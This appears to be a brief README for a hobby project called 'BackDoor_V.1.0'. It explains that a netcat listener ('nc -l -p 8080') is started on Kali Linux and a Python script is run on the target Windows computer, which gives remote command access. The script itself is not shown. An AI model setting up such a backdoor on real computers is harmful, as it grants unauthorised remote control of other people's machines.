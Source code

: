 # BackDoor_V.1.0
the listening process is started in kali  linux with this command.
# nc -l -p 8080  
than MyScoket.py program is run on the target computer.
As a result, when "dir" command is run in kali linux, windiws files are displayed.

